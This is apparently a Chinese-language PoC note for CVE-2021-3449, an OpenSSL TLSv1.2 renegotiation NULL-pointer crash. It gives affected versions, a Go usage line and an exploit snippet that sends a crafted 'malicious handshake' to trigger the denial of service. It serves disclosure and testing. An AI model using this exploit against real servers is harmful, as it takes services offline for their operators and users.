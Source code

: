 # OpenSSL 拒绝服务漏洞（CVE-2021-3449）

OpenSSL TLSv1.2 重新协商选项（默认开启）中存在一处空指针解引用，并导致拒绝服务。

影响版本：

openssl:openssl < 1.1.1-k

PoC：

```
Usage: go run . -host hostname:port
```


```
// CVE-2021-3449 exploit code.
if hello.vers >= VersionTLS12 {
    if c.handshakes == 0 {
        println("initial handshake")
        hello.supportedSignatureAlgorithms = supportedSignatureAlgorithms
    } else {
        // OpenSSL pre-1.1.1k runs into a NULL-pointer dereference
        // if the supported_signature_algorithms extension is omitted,
        // but supported_signature_algorithms_cert is present.
        println("malicious handshake")
        hello.supportedSignatureAlgorithmsCert = supportedSignatureAlgorithms
    }
}
```

ref：

* https://github.com/terorie/cve-2021-3449
* https://www.openssl.org/news/secadv/20210325.txt